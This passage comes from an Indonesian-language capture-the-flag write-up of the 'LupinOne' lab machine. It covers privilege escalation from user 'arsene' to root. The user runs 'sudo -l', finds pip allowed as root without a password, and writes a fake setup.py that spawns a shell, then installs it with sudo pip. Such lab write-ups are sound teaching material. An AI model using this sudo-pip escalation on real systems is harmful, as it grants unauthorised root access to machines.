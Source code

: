 Sekarang kita sudah memiliki user "arsene". Sekarang kita lanjut untuk mendapatkan user "root".

```
sudo -l
```

```json
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```
Bisa dilihat dari output di atas bahwa perintah "/usr/bin/pip" bisa dijalankan sebagai root tandapa menginputkan password. Lanjut...

Kita akan memanfaatkan pip untuk mendapatkan user root, dengan menginstall package palsu melaului perintah pip.
```sh
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![](Pasted%20image%2020220323200427.png)

Akhirnya kita mendapatkan rootnya :)